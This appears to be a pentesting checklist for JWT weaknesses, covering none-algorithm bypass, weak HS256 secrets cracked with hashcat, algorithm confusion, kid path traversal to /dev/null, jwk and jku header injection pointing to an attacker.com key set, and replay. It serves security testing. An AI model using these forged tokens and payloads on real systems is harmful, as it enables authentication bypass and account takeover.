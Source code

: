 # Penetration Testing: Exploiting JWT Vulnerabilities

## Introduction

JSON Web Tokens (JWTs) are widely used in modern web applications for authentication, session management, and access control. JWTs offer flexibility in how they are implemented, but this flexibility can also lead to serious security vulnerabilities if not handled properly. As the data is stored client-side, vulnerabilities related to JWTs can result in authentication bypass, privilege escalation, and sensitive data exposure.

The key to understanding JWT attacks is recognizing that JWTs, although signed, do not necessarily guarantee the integrity of their contents unless implemented securely. These vulnerabilities arise from flaws such as improper signature verification, weak secret keys, and inadequate token validation practices.

### Why JWT Security Matters
1. **Authentication Bypass**: JWT vulnerabilities may allow attackers to impersonate other users or escalate privileges.
2. **Session Hijacking**: Misuse of JWTs in session management can allow attackers to take over legitimate user sessions.
3. **Data Tampering**: Without proper signature verification, attackers can tamper with the payload or header claims.
4. **Exposure of Sensitive Information**: Improper token storage or handling can lead to leakage of user or application data.

Ensuring the secure handling of JWTs is critical to maintaining the security of web applications and preventing the compromise of both user data and application integrity.

---

## JWT Vulnerability Pentesting Checklist

### 1. **Unverified Signature**
   - **Vulnerability**: JWT signature not being properly verified.
   - **How to Find**: Check if the application decodes the token without verifying the signature. Use a modified token (with an invalid or no signature) and observe if the server still accepts it.
   - **Example**:
     ```json
     {
       "alg": "none"
     }
     ```
     Send this token without a valid signature and see if access is granted.

### 2. **None Algorithm Bypass**
   - **Vulnerability**: Allowing the use of `alg: none` (no signature).
   - **How to Find**: Modify the JWT header to use the `none` algorithm and remove the signature section. Check if the application still accepts the token.
   - **Example**:
     Header: 
     ```json
     {
       "alg": "none",
       "typ": "JWT"
     }
     ```
     Payload and empty signature: 
     ```
     eyJhbGciOiJub25lIn0.eyJpc3MiOiJleGFtcGxlIn0.
     ```

### 3. **Weak Secret Key (HS256)**
   - **Vulnerability**: Weak or easily brute-forceable secret key used in HMAC-signed tokens (HS256).
   - **How to Find**: Brute-force the JWT signature using tools like `hashcat` with common wordlists.
   - **Example**:
     ```bash
     hashcat -a 0 -m 16500 <jwt_token> <wordlist>
     ```
     If successful, you will retrieve the weak secret key.

### 4. **Algorithm Confusion**
   - **Vulnerability**: Misconfiguration allowing switching from asymmetric (e.g., RS256) to symmetric algorithms (e.g., HS256).
   - **How to Find**: Modify the JWT to switch from RS256 to HS256. Use the public key (intended for RS256) as the HMAC secret and sign the token.
   - **Example**:
     Modify the header from:
     ```json
     {
       "alg": "RS256"
     }
     ```
     To:
     ```json
     {
       "alg": "HS256"
     }
     ```
     Then use the server's public key as the secret for HMAC signing.

### 5. **Key Injection via `kid` Header**
   - **Vulnerability**: Key injection in the `kid` (Key ID) parameter to use a predictable file for signature verification.
   - **How to Find**: Test directory traversal or point the `kid` to `/dev/null` and sign with an empty string.
   - **Example**:
     ```json
     {
       "kid": "../../../../../dev/null",
       "alg": "HS256"
     }
     ```
     Then sign the JWT with an empty key and verify if it is accepted.

### 6. **JWK Header Injection**
   - **Vulnerability**: Injecting a public key via the `jwk` header parameter, tricking the server to use the attacker’s key.
   - **How to Find**: Add the `jwk` parameter in the JWT header containing a crafted key. Observe if the server uses the key for signature verification.
   - **Example**:
     ```json
     {
       "alg": "RS256",
       "jwk": {
         "kty": "RSA",
         "n": "<your-public-key-modulus>",
         "e": "AQAB"
       }
     }
     ```

### 7. **JWK Set URL (`jku`) Injection**
   - **Vulnerability**: Specifying an arbitrary JWK Set URL (`jku` header) that the server fetches and trusts.
   - **How to Find**: Set a custom `jku` header pointing to your controlled server hosting a malicious JWK Set.
   - **Example**:
     ```json
     {
       "alg": "RS256",
       "jku": "http://attacker.com/jwks.json"
     }
     ```

### 8. **Expired or Invalid Token Acceptance**
   - **Vulnerability**: Accepting expired or improperly formatted tokens.
   - **How to Find**: Modify the `exp` (expiration) claim in the payload to a past time or remove it entirely, then check if the server still grants access.
   - **Example**:
     ```json
     {
       "exp": 1600000000
     }
     ```
     The server should reject this token, but if not, it’s a vulnerability.

### 9. **Replay Attack (Reusing JWT)**
   - **Vulnerability**: Tokens being reused (no token revocation mechanism or anti-replay measures).
   - **How to Find**: Capture a valid JWT, then replay it after the user has logged out or after a session timeout.
   - **Example**: If a user logs out but the token is still valid on the server, the vulnerability exists.

---

## Conclusion

Securing JWTs is crucial as their misuse can lead to catastrophic security failures, such as unauthorized access, privilege escalation, and data tampering. By systematically testing for these vulnerabilities and following best practices for token handling, developers can significantly reduce the risk of JWT-based attacks in their applications.
